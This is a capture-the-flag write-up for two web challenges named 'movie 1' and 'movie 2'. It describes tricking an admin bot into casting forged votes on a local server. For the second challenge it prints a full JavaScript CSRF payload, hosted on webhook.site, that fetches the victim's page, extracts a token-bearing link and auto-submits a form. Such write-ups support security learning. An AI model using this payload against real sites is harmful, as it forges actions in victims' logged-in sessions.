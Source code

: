 # solution

### movie 1

This challenge is quite tricky for me, I know how to get flag but my payload is not working.
Basically, you just need sent a "vote" link for admin. You can check if the admin auto click at your link by sending
![<alt text>](image.png)<br>
Just send

```
unudrnh.request.dreamhack.games
```

part, i dont know why sent full url is not working.
The finally payload is here.

```
http://localhost:1337/vote/8/up
```

### movie 2

Same like movie 1 but now we need send the vote link with csrf token as well.
![alt text](image-1.png)<br>
But i found that we can retrieve this token we login main page
![alt text](image-2.png)<br>
So the idea is fool the admin to click the link, get the token and, and use that token to
get the flag. Edit the webhook so that when the admin clicks,
it will automatically fetch http://localhost:1337/
to get the token => Use that token to vote for the Flag.

Here is the payload to do that.

```
<form action="http://localhost:1337/" method="GET">
  <input type="submit" value="submit">
</form>
<script>
const url = "http://localhost:1337/";
fetch(url)
  .then((response) => {
    if (!response.ok) {
      throw new Error(`HTTP error! status: ${response.status}`);
    }
    return response.text();
  })
  .then((html) => {
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, "text/html");
    const aTags = doc.querySelectorAll("a");
    const link = aTags[15];
    if (link) {
      console.log(link, aTags.length)
      const href = link.getAttribute("href");
      document.forms[0].action = url + href.substring(1, href.length);
      console.log(document.forms[0].action);
      document.forms[0].submit()
    } else {
      console.log("No <a> tag with the class 'btn btn-success' found.");
    }
  })
  .catch((error) => {
    console.error("Error fetching the URL:", error);
  });
</script>
```

You change this content on webhook.site to save your time
![alt text](image-3.png)<br>
wait a bit and you get a flag.
![alt text](image-4.png)<br>
